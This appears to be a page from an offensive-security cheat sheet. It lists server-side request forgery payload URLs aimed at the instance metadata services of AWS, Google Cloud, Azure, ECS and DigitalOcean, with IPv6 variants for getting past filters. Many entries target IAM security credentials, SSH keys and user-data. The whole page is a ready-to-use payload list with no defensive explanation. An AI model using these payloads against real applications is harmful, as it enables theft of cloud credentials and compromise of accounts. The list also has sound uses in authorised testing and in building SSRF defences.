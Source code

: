 ## 2-SSRF URL for Cloud Instances

```jsx
AWS
http://instance-data
http://169.254.169.254
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/ISRM-WAF-Role
```

```jsx
Google Cloud
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

```jsx
Azure:
http://169.254.169.254/metadata/v1/maintenance
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
```

```jsx
IPv6 Tests:
http://[::ffff:169.254.169.254]
http://[0:0:0:0:0:ffff:169.254.169.254]
```

```jsx
ECS Task: 
http://169.254.170.2/v2/credentials/
```

```jsx
Digital Ocean:
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
```
